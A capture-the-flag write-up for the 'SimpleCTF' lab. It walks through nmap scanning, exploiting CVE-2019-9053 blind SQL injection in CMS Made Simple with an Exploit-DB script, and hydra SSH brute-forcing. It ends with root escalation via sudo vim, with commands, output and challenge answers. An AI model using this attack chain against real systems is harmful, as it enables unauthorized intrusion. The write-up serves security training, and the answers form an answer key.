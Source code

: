 > # SimpleCTF

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [How many services are running under port 1000?](#how-many-services-are-running-under-port-1000)
    - [How many services are running under port 1000?](#how-many-services-are-running-under-port-1000)
    - [What is running on the higher port?](#what-is-running-on-the-higher-port)
    - [What's the CVE you're using against the application?](#whats-the-cve-youre-using-against-the-application)
    - [To what kind of vulnerability is the application vulnerable?](#to-what-kind-of-vulnerability-is-the-application-vulnerable)
    - [What's the password?](#whats-the-password)
    - [Where can you login with the details obtained?<br>](#where-can-you-login-with-the-details-obtainedbr)
    - [What's the user flag?](#whats-the-user-flag)
    - [Is there any other user in the home directory? What's its name?<br>](#is-there-any-other-user-in-the-home-directory-whats-its-namebr)
    - [What can you leverage to spawn a privileged shell?](#what-can-you-leverage-to-spawn-a-privileged-shell)
    - [What's the root flag?](#whats-the-root-flag)
- [Reference](#reference)

<!-- /TOC -->

```
sudo nmap -Pn 10.10.222.120 -A
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-27 04:21 EST
Nmap scan report for 10.10.222.120
Host is up (0.22s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.61.205
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.4 (91%), Crestron XPanel control system (90%), Linux 3.10 - 3.13 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## How many services are running under port 1000?
**Answer:** 2

## What is running on the higher port?
**Answer:** ssh

## What's the CVE you're using against the application?
Use `gobuster`, I found a directory `simple` run CMS application version 2.2.8.<br>
![](images/1.png)<br>
![](images/2.png)<br>
Search on Metasploit to fin CVE, select module and display its info then search this title on Google you will see the CVE.<br>
**Answer:** CVE-2019-9053

## To what kind of vulnerability is the application vulnerable?
It's SQL Injection
**Answer:** SQLi

## What's the password?
Use python script on [link](https://www.exploit-db.com/exploits/46635), specify URI for `-u` option, wordlist for `-w`, `-c` for crack password. It will perform Blind SQL injection to get the full hash password.<br>
```
python3 exploit.py -u http://10.10.23.210/simple/
[+] salt = 1dac0d92e9fa6bb2
[+} username = mitch
[+] email = admin@admin.com
```
I found a username `mitch`, use `hydra` to bruteforce password for ssh.<br>
```
hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.23.210:2222 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-27 08:12:37
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.23.210:2222/
[2222][ssh] host: 10.10.23.210   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-27 08:13:04
```
**Answer:** secret

## Where can you login with the details obtained?<br>
**Answer:** SSH

## What's the user flag?
Login with SSH to read the user flag.<br>
![](images/3.png)<br>
<!-- G00d j0b, keep up! -->
**Answer:** \<redacted>

## Is there any other user in the home directory? What's its name?<br>
List `/home` folder to find other user
```
$ ls /home
mitch  sunbath
```
**Answer:** sunbath

## What can you leverage to spawn a privileged shell?
Use `sudo -l` to list binary files which `mitch` could run as `root` without root's password.<br>
```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
**Answer:** vim

## What's the root flag?
Use `vim` to spawn a root shell then read the root flag.<br>
![](images/4.png)
<!-- W3ll d0n3. You made it! -->
**Answer:** \<redacted>

# Reference
* https://gtfobins.github.io/gtfobins/vim/
* https://www.exploit-db.com/exploits/46635
